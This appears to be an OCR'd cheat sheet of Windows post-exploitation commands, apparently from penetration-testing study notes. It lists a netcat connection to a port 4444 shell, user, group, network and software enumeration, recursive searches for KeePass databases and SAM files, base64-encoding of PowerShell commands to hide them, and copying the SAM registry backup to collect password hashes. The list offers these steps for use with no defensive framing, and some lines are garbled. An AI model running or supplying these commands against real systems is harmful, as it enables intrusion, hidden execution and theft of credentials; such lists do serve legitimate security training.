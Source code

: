 - `nc 192.168.50.220 4444`
- `whoami`
- `whoami /groups`
- `Get-LocalUser`
- `Get-LocalUser -Name "username" | Select-Object \*`
- `Get-LocalGroup`
- `Get-LocalGroupMember Administrators`
- `systeminfo`
- `ipconfig /all`
- `route print`
- `netstat -ano`

## Installed Applications:

### 32 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

###64 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

- `Get-Process`

- `Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue`

- `Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue`

- `Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "YourSearchString"`

`$command = "Get-Process"`
`$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
`$encodedCommand = [Convert]::ToBase64String($bytes)`
`powershell.exe -EncodedCommand $encodedCommand`

`Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination "C:\Path\To\NewLocation\SAM"`
